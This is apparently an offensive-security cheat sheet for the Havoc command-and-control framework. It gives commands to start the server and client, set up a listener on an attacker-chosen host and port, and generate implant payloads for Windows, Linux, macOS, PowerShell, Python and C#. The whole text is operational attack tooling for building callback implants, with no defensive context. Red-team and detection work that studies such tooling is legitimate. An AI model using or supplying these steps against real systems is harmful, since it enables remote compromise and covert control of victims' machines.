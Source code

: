 # Havoc C2

% havoc

#plateform/linux #target/remote #cat/C2 #tag/command-control

## Start Havoc Server
#cat/SETUP 
```
sudo ./havoc server
```

## Start Havoc Client
#cat/SETUP 
```
./havoc client
```

## Generate Listener
#cat/SETUP 
```
havoc listener --name <listener_name> --host <ip> --port <port>
```

## Generate Windows EXE Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format exe --output <output_file>
```

## Generate Windows DLL Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format dll --output <output_file>
```

## Generate Shellcode Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format shellcode --output <output_file>
```

## Generate Raw Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format raw --output <output_file>
```

## Generate PowerShell Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format powershell --output <output_file>
```

## Generate Python Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format python --output <output_file>
```

## Generate C# Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format csharp --output <output_file>
```

## Generate Linux Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format linux --output <output_file>
```

## Generate MacOS Payload
#cat/PAYLOAD 
```
havoc payload --listener <listener_name> --format macos --output <output_file>
```

## List Available Listeners
#cat/UTILS 
```
havoc listener --list
```

## List Available Payload Formats
#cat/UTILS 
```
havoc payload --formats
```

## Show Payload Help
#cat/UTILS 
```
havoc payload --help
```

## Show Listener Help
#cat/UTILS 
```
havoc listener --help
```
